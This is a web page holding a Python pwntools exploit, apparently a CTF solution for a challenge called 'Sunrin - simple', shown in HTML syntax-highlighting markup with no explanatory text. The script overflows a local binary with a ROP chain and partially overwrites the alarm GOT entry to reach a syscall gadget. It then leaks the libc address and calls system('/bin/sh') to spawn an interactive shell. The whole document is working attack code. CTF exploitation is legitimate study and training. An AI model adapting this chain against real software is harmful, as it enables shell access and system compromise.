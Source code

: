 # Sunrin - simple

<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div><div style="line-height:130%">15</div><div style="line-height:130%">16</div><div style="line-height:130%">17</div><div style="line-height:130%">18</div><div style="line-height:130%">19</div><div style="line-height:130%">20</div><div style="line-height:130%">21</div><div style="line-height:130%">22</div><div style="line-height:130%">23</div><div style="line-height:130%">24</div><div style="line-height:130%">25</div><div style="line-height:130%">26</div><div style="line-height:130%">27</div><div style="line-height:130%">28</div><div style="line-height:130%">29</div><div style="line-height:130%">30</div><div style="line-height:130%">31</div><div style="line-height:130%">32</div><div style="line-height:130%">33</div><div style="line-height:130%">34</div><div style="line-height:130%">35</div><div style="line-height:130%">36</div><div style="line-height:130%">37</div><div style="line-height:130%">38</div><div style="line-height:130%">39</div><div style="line-height:130%">40</div><div style="line-height:130%">41</div><div style="line-height:130%">42</div><div style="line-height:130%">43</div><div style="line-height:130%">44</div><div style="line-height:130%">45</div><div style="line-height:130%">46</div><div style="line-height:130%">47</div><div style="line-height:130%">48</div><div style="line-height:130%">49</div><div style="line-height:130%">50</div><div style="line-height:130%">51</div><div style="line-height:130%">52</div><div style="line-height:130%">53</div><div style="line-height:130%">54</div><div style="line-height:130%">55</div><div style="line-height:130%">56</div><div style="line-height:130%">57</div><div style="line-height:130%">58</div><div style="line-height:130%">59</div><div style="line-height:130%">60</div><div style="line-height:130%">61</div><div style="line-height:130%">62</div><div style="line-height:130%">63</div><div style="line-height:130%">64</div><div style="line-height:130%">65</div><div style="line-height:130%">66</div><div style="line-height:130%">67</div><div style="line-height:130%">68</div><div style="line-height:130%">69</div><div style="line-height:130%">70</div><div style="line-height:130%">71</div><div style="line-height:130%">72</div><div style="line-height:130%">73</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">from</span>&nbsp;pwn&nbsp;<span style="color:#a71d5d">import</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#999999">#context.log_level='debug'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>process(<span style="color:#63a35c">'problem'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">e<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>ELF(<span style="color:#63a35c">'problem'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>e.libc</div><div style="padding:0 6px; white-space:pre; line-height:130%">syscall<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#63a35c">'\x7b'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#999999">#write='\xb9'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#999999">#0x00000000004005fc&nbsp;:&nbsp;pop&nbsp;r12&nbsp;;&nbsp;pop&nbsp;r13&nbsp;;&nbsp;pop&nbsp;r14&nbsp;;&nbsp;pop&nbsp;r15&nbsp;;&nbsp;ret</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">''</span><span style="color:#63a35c">'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">0x7ffff7ad9517&nbsp;&lt;__libc_fork+471&gt;:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;&nbsp;&nbsp;&nbsp;eax,r13d</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">0x7ffff7ad951a&nbsp;&lt;__libc_fork+474&gt;:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;pop&nbsp;&nbsp;&nbsp;&nbsp;rbx</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;0x7ffff7ad951b&nbsp;&lt;__libc_fork+475&gt;:&nbsp;&nbsp;&nbsp;&nbsp;pop&nbsp;&nbsp;&nbsp;&nbsp;r12</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;0x7ffff7ad951d&nbsp;&lt;__libc_fork+477&gt;:&nbsp;&nbsp;&nbsp;&nbsp;pop&nbsp;&nbsp;&nbsp;&nbsp;r13</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;0x7ffff7ad951f&nbsp;&lt;__libc_fork+479&gt;:&nbsp;&nbsp;&nbsp;&nbsp;pop&nbsp;&nbsp;&nbsp;&nbsp;r14</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;0x7ffff7ad9521&nbsp;&lt;__libc_fork+481&gt;:&nbsp;&nbsp;&nbsp;&nbsp;pop&nbsp;&nbsp;&nbsp;&nbsp;r15</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;0x7ffff7ad9523&nbsp;&lt;__libc_fork+483&gt;:&nbsp;&nbsp;&nbsp;&nbsp;pop&nbsp;&nbsp;&nbsp;&nbsp;rbp</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;0x7ffff7ad9524&nbsp;&lt;__libc_fork+484&gt;:&nbsp;&nbsp;&nbsp;&nbsp;ret</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">'</span><span style="color:#63a35c">''</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x38</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0x400601</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(e.got[<span style="color:#63a35c">'alarm'</span>])</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0xdeadbeef</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(e.plt[<span style="color:#63a35c">'read'</span>])</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0x400601</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(e.got[<span style="color:#63a35c">'read'</span>])</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0xdeadbeef</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(e.plt[<span style="color:#63a35c">'read'</span>])</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0x4005fc</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">1</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">4</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(e.plt[<span style="color:#63a35c">'alarm'</span>])</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">6</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0x400603</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">1</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(e.plt[<span style="color:#63a35c">'read'</span>])</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0x400603</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0x400601</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(e.got[<span style="color:#63a35c">'alarm'</span>])<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">2</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(e.plt[<span style="color:#63a35c">'alarm'</span>])</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">6</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(e.plt[<span style="color:#63a35c">'read'</span>])</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(e.symbols[<span style="color:#63a35c">'main'</span>])</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sleep(<span style="color:#0099cc">0.</span><span style="color:#0099cc">1</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.send(payload)</div><div style="padding:0 6px; white-space:pre; line-height:130%">sleep(<span style="color:#0099cc">0.</span><span style="color:#0099cc">1</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.send(p16(<span style="color:#0099cc">0x9517</span>))</div><div style="padding:0 6px; white-space:pre; line-height:130%">sleep(<span style="color:#0099cc">0.</span><span style="color:#0099cc">1</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.send(<span style="color:#63a35c">'\x5e'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">sleep(<span style="color:#0099cc">0.</span><span style="color:#0099cc">1</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">try</span>:</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;leak<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>u64(r.recvuntil(<span style="color:#63a35c">'\x7f'</span>).ljust(<span style="color:#0099cc">8</span>,<span style="color:#63a35c">'\x00'</span>))<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span>libc.symbols[<span style="color:#63a35c">'read'</span>]<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">0xe</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;log.info(hex(leak))</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">except</span>:</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#a71d5d">pass</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#999999">#raw_input()</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">r.send(p16(<span style="color:#0099cc">0x9200</span>))</div><div style="padding:0 6px; white-space:pre; line-height:130%">sleep(<span style="color:#0099cc">0.</span><span style="color:#0099cc">1</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x38</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0x400603</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(leak<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>list(libc.search(<span style="color:#63a35c">"/bin/sh"</span>))[<span style="color:#0099cc">0</span>])</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(leak<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>libc.symbols[<span style="color:#63a35c">'system'</span>])</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.send(payload)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.interactive()</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>

